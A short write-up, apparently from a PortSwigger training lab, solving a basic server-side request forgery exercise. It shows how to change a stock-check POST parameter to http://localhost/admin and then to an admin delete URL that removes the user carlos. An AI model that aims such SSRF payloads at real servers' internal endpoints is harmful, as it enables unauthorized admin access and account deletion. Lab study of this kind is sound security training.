 ### Lab: Basic SSRF against the local server

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

_____

Analysis and Exploit:

1. Test the "Check stock" function in **/product/stock**
    - POST request **/product/stock** 
    - stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
2. **[BURP-REPEATER]** Repeat POST request from point 1
    - Change _stockAPI_ value to _http://localhost/admin_
3. **[BURP-REPEATER]** Repeat POST request from point 2
    - Change _stockAPI_ value to _http://localhost/admin/delete?username=carlos_

_____

Script:
1. Delete user | POST **/product/stock** | params: stockAPI
    - stockAPI : http://localhost/admin/delete?username=carlos
        - if status code = 401 Unauthorized, then ok